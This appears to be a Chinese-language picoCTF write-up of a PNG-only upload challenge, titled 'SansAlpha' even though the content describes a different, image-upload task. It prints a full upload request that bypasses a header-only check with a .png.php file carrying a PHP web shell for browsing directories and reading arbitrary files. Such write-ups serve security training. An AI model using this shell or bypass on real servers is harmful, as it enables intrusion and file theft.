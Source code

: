 
# SansAlpha
[Challenge](https://play.picoctf.org/practice/challenge/445)

## Description

I found a web app that can help process images: PNG images only!

## Solution

目標機就是一個可以上傳圖片的網站，這題也算是蠻直觀的經典考題，因為題目只能上傳PNG，應該就是要考惡意程式上傳。

![Untitled](/picoCTF%202024/img/2024_5.png)

先來看一下有沒有甚麼線索，連到`/robots.txt`看

![Untitled](/picoCTF%202024/img/2024_6.png)

可以看到他有一個`/uploads/`跟一個文件，那個上傳資料夾應該就是上傳後的檔案位置，那文件裡面的內容則是寫到上傳檔案的判斷依據。

![Untitled](/picoCTF%202024/img/2024_7.png)

根據`instructions.txt`的說法，看來它只透過標頭去做判斷，接下來就是嘗試上傳一個正常的PNG檔案並用Burp把請求攔截下來，然後將檔案名稱改成php，內容改成想要的shell，底下附上我最後送出的上傳請求以及shell的內容，這支shell可以將目錄走訪直接做在畫面上，很方便

```
POST / HTTP/1.1
Host: atlas.picoctf.net:60607
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------419861389234077765582180596946
Content-Length: 693
Origin: http://atlas.picoctf.net:60607
Connection: close
Referer: http://atlas.picoctf.net:60607/
Upgrade-Insecure-Requests: 1

-----------------------------419861389234077765582180596946
Content-Disposition: form-data; name="file"; filename="test.png.php"
Content-Type: image/png

PNG
<?

if($_GET['file']) {
	$fichero=$_GET['file']; 
	} else {
	$fichero="/";
	} 

if($handle = @opendir($fichero)) {
  while($filename = readdir($handle)) {
    echo "( ) <a href=?file=" . $fichero . "/" . $filename . ">" . $filename . "</a><br>";
    }
  closedir($handle);
  } else {
  echo "FILE: " . $fichero . "<br><hr><pre>";
  $fp = fopen($fichero, "r");
  $buffer = fread($fp, filesize($fichero));
  echo $buffer;
  fclose($fp);
  }

?>
-----------------------------419861389234077765582180596946--
```
